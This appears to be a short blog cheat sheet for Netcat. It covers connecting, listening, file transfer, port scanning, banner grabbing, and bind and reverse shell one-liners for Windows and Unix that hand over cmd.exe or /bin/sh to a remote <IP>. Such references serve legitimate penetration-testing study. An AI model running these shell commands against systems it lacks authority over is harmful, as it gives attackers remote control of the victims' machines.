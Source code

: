 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


Usage
-----
Insert picture here


Basic
-----
**TCP Port - Connecting**  
`nc -nv <IP> <PORT>`

**TCP Port - Listening**  
`nc -lvp <PORT>`

**Connect and return HTTP Page**  
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**  
`nc -lvp 4444 > output.txt # Receiving End`
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**  
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**  
`echo "" | nc -nv -w1 <IP Address> <Ports>`

Windows
-----
**Bind Shell**  
`nc -lvp 4444 -e cmd.exe`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**  
`nc -lvp 443 # Attacking Machine - Waiting for shell`
`nc -nv <IP> 443 -e cmd.exe # Target Machine - sending shell`

Nix
-----
**Bind Shell**  
`nc -lvp 4444 -e /bin/sh`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**  
`nc -lvp 443`
`nc -nv <IP> 443 -e /bin/sh`

Additional Resources
-----
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)  

[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
